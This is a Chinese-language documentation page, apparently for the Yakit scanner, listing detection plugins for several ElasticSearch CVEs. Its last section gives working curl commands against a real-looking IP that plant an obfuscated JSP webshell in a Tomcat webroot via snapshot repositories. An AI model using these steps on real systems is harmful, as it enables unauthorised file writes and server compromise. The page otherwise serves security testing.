 ```yaml
---
sidebar_position: 17
---
```

# ElasticSearch

## 1 CVE-2014-3120 远程代码执行漏洞检测

**插件id：**

e8518ead-d759-4789-9531-73cb88c4eda7

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-1.png)

## 2 CVE-2015-1427 远程代码执行漏洞检测

**插件id：**

77975554-aa02-4d5d-b6dc-e960090b7288

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-2.png)

## 3 CVE-2015-3337 目录穿越漏洞检测

**插件id：**

4da6b591-5b7f-46b3-8f5c-84af1445e32c

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-3.png)

## 4 CVE-2015-5531 目录遍历与文件读取漏洞检测

**插件id：**

Yakit正在努力编写~

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-4.png)

## 5 WooYun-2015-110216 写入webshell漏洞

**插件id：**

Yakit正在努力编写~

**测试过程：**

首先创建一个恶意索引文档：

```go
curl -XPOST http://185.238.248.179:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

再创建一个恶意的存储库，其中location的值即为我要写入的路径。

```go
curl -XPUT 'http://185.238.248.179:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
'
```

存储库验证并创建:

```go
curl -XPUT "http://185.238.248.179:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

![](/img/products/yakit/ElasticSearch-5.png)

访问http://185.238.248.179:8080//wwwroot/indices/yz.jsp/snapshot-yz.jsp
这就是我们写入的webshell
该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串
如：http://185.238.248.179:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success，我们再访问/wwwroot/test.jsp就能看到success了

![](/img/products/yakit/ElasticSearch-6.png)
